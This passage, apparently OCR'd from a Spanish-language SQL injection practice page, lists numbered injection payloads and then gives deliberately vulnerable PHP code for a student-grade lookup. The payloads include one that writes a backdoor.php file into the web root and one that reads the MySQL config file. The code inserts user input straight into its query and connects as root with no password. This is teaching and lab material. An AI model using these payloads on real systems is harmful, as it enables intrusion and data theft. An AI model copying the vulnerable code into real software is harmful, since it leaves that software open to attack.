 53. **Ejecutar comandos arbitrarios del sistema operativo**:
    - Inyección SQL: `'; SELECT * FROM sys.sys_config INTO OUTFILE '/var/www/html/backdoor.php'; --`

54. **Recuperar información del archivo de configuración de la base de datos**:
    - Inyección SQL: `'; SELECT LOAD_FILE('/etc/mysql/my.cnf'); --` (Nota: depende de la configuración del servidor)

55. **Intentar realizar una inyección SQL basada en error**:
    - Inyección SQL: `'; SELECT * FROM non_existent_table; --`


Codigo vulnerable para practicas
```
<?php
    // Iniciar sesión
    session_start();

    // Redirigir al usuario a la página de inicio de sesión si no está autenticado
    if (!isset($_SESSION['usuario'])) {
        header("Location: acceso.php");
        exit;
    }
?>
<!DOCTYPE html>
<html>
<head>
    <title>Historial de Notas</title>
</head>
<body>
    <h1>Historial de Notas</h1>
    <form action="calificaciones.php" method="GET">
        Código de Estudiante:
        <input type="text" name="codigo_estudiante">
        <input type="submit" value="Buscar">
    </form>
    <?php
        $dbuser = 'root';
        $dbpassword = "";

        // Establecer conexión a la base de datos
        $conn = new PDO("mysql:host=127.0.0.1:3306;dbname=umanizales", $dbuser, $dbpassword);

        if(isset($_GET["codigo_estudiante"])){
            $codigo_estudiante = $_GET["codigo_estudiante"];

            // Preparar y ejecutar la consulta
            // Modificación para hacer vulnerable a las inyecciones SQL
            $consultaSQL = $conn->prepare("SELECT * FROM notas WHERE estudiante_codigo = '$codigo_estudiante'");
            $consultaSQL->execute();
    ?>
    <h2>Historial de Notas</h2>
    <table border="1">
        <tr>
            <th>Asignatura</th>
            <th>Corte 1</th>
            <th>Corte 2</th>
            <th>Corte 3</th>
        </tr>
        <?php
        // Mostrar los resultados de la consulta en forma de tabla
        while ($row = $consultaSQL->fetch(PDO::FETCH_ASSOC)){
        ?>
        <tr>
            <td><?php echo $row["asignatura"]; ?></td>
            <td><?php echo $row["corte1"]; ?></td>
```